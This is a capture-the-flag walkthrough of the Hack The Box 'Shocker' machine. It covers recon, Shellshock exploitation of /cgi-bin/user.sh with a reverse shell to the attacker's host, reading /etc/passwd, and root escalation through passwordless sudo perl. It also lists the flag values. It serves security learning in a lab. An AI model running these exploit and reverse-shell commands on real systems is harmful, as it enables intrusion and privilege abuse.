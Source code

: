 # [06 - Shocker](https://app.hackthebox.com/machines/Shocker)

  * [description](#description)
  * [walkthrough](#walkthrough)
    * [recon](#recon)
    * [80](#80)
    * [help](#help)
    * [shelly](#shelly)
  * [flag](#flag)
  * [description](#description)
  * [walkthrough](#walkthrough)
    * [recon](#recon)
  * [flag](#flag)
![Shocker.png](Shocker.png)

## description
> 10.10.10.56

## walkthrough

### recon

```
$ nmap -sV -sC -A -Pn -p- shocker.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-23 14:54 MDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.058s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80

returns
> Don't bug me!

with

![bug.jpg](bug.jpg)


gobuster dir with `common.txt` found nothing except index.html
gobuster vhosts with subdomain-5000 found a few `\d` subdomains, all 400 and the same length (422)

the name definitely leans towards `ShellShock`, but we still need something other than index.html, right?

`/cgi-bin` gives us a 403, while `/cgi-bin2` gives a 404, there is something there.. what are some defaults? `index.cgi` does not exist

`CGIs.txt` has ~700 matches for that and we already ran it with no results

tried `/cgi-bin/` with `bugme`, `bug`, `bug-me` flavors of `.pl` and `.cgi`

apache has default cgi-bin scripts that should be accessible
  * http://shocker.htb/cgi-bin/printenv
  * http://shocker.htb/cgi-bin/test-cgi

but they are 404 as well

tried
`	pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv"]`

404

we're missing something.



### help

```
$ curl http://shocker.htb/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:22:16 up  1:34,  0 users,  load average: 0.02, 0.03, 0.00
```

```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 172.16.0.34:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Exploit completed, but no session was created.
```

hmm.

```
$ python ~/git/searchsploit/exploits/linux/remote/34900.py payload=reverse rhost=shocker.htb lhost=10.10.14.9 lport=4445 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id -a
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

that'll do.

```
10.10.10.56> ls -la /home/shelly
total 36
drwxr-xr-x 4 shelly shelly 4096 Sep 22  2017 .
drwxr-xr-x 3 root   root   4096 Sep 22  2017 ..
-rw------- 1 root   root      0 Sep 25  2017 .bash_history
-rw-r--r-- 1 shelly shelly  220 Sep 22  2017 .bash_logout
-rw-r--r-- 1 shelly shelly 3771 Sep 22  2017 .bashrc
drwx------ 2 shelly shelly 4096 Sep 22  2017 .cache
drwxrwxr-x 2 shelly shelly 4096 Sep 22  2017 .nano
-rw-r--r-- 1 shelly shelly  655 Sep 22  2017 .profile
-rw-r--r-- 1 root   root     66 Sep 22  2017 .selected_editor
-rw-r--r-- 1 shelly shelly    0 Sep 22  2017 .sudo_as_admin_successful
-r--r--r-- 1 root   root     33 Sep 22  2017 user.txt
10.10.10.56> cat /home/shelly/user.txt
2ec24e11320026d1e70ff3e16695b233
```

boom.

### shelly


```
10.10.10.56> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/sys
```

not a real user?


running linpeas in this shell isn't great - but it gets the job done

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

```
10.10.10.56> sudo perl -e 'exec "/bin/cat /root/root.txt";'
52c2715605d70c7619030560dc1ca467
```


## flag
```
user:2ec24e11320026d1e70ff3e16695b233
root:52c2715605d70c7619030560dc1ca467
```
